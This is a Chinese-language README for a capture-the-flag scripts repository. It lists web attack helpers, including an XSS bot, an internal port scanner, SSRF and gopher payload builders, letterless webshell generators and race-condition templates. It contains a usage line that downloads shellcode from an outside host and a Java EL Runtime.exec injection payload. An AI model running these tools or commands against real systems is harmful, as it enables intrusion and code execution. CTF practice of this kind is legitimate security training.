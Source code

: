 # CTF-Scripts

## 目录结构
```
├── README.md
├── javascript
│   ├── node-ssrf-split.js
│   ├── port-scan.js
│   └── xss-bot.js
├── misc
│   ├── UploadServer.py
│   ├── compress-zlib.py
│   └── download.sh
├── php
│   ├── calcSig.py
│   ├── ffi-leak.php
│   ├── geneshell.php
│   ├── geneshell2.php
│   └── serialize.php
├── thread
│   ├── contend.py
│   └── contend2.py
└── transform
    ├── convert2javabytes.py
    ├── encoding.js
    ├── gopher.py
    ├── gopher2mysql
    ├── gopher2mysql.py
    └── gopherConvert.py
```

## 文件说明

|  文件名 | 文件说明  |
|---|---|
|  encoding.js |  JS8/16进制/Unicode标准格式转换 |
|  node-ssrf-split.js | node<=8.0 http.get拆分请求构造，对于生成的数据进行encodeUR操作即可  |
|  port-scan.js | JS探测内网主机端口/内网主机  |
|  xss-bot.js | XSS机器人  |
|  serialize.php | 对于private/protected属性，序列化后S类型转换(截取phpgcc部分功能)  |
| geneshell.php  | 生成无字母webshell的字母部分，用法见p神：[无字母数字的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html#_4)  |
| geneshell2.php  |  另一种无字母Shell生成函数，无短标签  |
|  compress-zlib.php | file_get_contents生成本地临时文件，使用socket原生套接字改写Http请求&响应包。双线程发送http请求，参考36c3 CTF includer:[includer](https://ljdd520.github.io/2020/01/15/hxp-36c3-ctf-Web-%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)  |
|  ffi-leak.php | PHP7.4 FFI extension use to leak data，来源：[@cjm00n](https://cjm00n.top/CTF/tctf-2020-wp.html)  |
|  calcSig.py | 根据内容计算phar的签名，生成新的phar文件  |
| gopherConvert.py  | wireshark网卡数据包转gopher数据形式  |
| gopher.py  | 生成post的gopher数据报文  |
|  gopher2mysql.py | 生成与mysql交互的gopher数据报文  |
| UploadServer.py  | 以当前目录，快速启动一个带有文件上传/下载功能代理服务器. Usage: python2 UploadServer.py 8888  |
| download.sh  | 无curl或wget情况的http下载文件请求，Usage：download.sh http://hpdoger.cn:8888/shellcode.elf > shellcode.elf  |
|contend.py |threading条件竞争模版，用来竞争php sess文件 |
| contend2.py|比较优雅的进行条件竞争模版，来自@P神 |
|convert2javabytes.py |转字符串为16进制字节码，方便java中的命令执行例如EL表达式：${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))} |
| c\perl交互readflag脚本| [readflag](https://github.com/ZeddYu/ReadFlag)|
